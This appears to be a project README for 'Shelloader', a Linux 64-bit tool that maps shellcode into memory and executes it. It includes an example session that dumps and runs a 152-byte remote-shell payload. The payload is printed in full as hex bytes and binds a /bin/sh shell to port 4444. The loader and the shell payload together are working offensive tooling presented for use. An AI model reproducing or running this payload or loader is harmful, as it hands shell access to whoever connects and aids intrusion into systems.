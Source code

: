 Shelloader
===========

Linux 64-Bit mmap based shellcode loader.

Video showing it being used
---------------------------

<a href="http://www.youtube.com/watch?v=SNp7Tltc1wM">http://www.youtube.com/watch?v=SNp7Tltc1wM</a>

Example usage with remoteshell shellcode
-----------------------------------------

[rj@localhost  shelloader]$ ./shelloader remoteshell_nulled.o -e<br>
Linux 64-Bit mmap based shellcode loader by Travis "rjkall".<br>
[*] Examining remoteshell_nulled.o...<br>
[*] EI_MAG0 = 0x7f, continuing.<br>
[*] Found .text section at address 0x00000040 with length of 152 bytes.<br>
[*] Dumping shellcode.<br>
\x55\x48\x89\xe5\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc1\x48\x83\xec\x10\x66\xc7\x45\xf2\x11\x5c\xbe\x80\xff\xff\xfe\xf7\xd6\x89\x75\xf4\xc6\x45\xf0\x02\x4c\x89\xcf\x48\x8d\x75\xf0\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x4c\x89\xcf\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x83\xec\x10\x4c\x89\xcf\x48\x8d\x75\xf0\x6a\x10\x54\x5a\x6a\x2b\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x48\x83\xfe\x03\x7d\x0d\x4c\x89\xc7\x6a\x21\x58\x0f\x05\x48\xff\xc6\xeb\xed\x48\xb8\x6a\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xe8\x08\x50\x54\x5f\x48\x31\xf6\x48\x31\xd2\x6a\x3b\x58\x0f\x05\x48\x31\xff\x6a\x3c\x58\x0f\x05<br>
[*] Mapping and copying 152 bytes of shellcode to memory.<br>
[*] Executing shellcode at address 0x7fcc522c6000.<br>
[rj@localhost shelloader]$ <br>
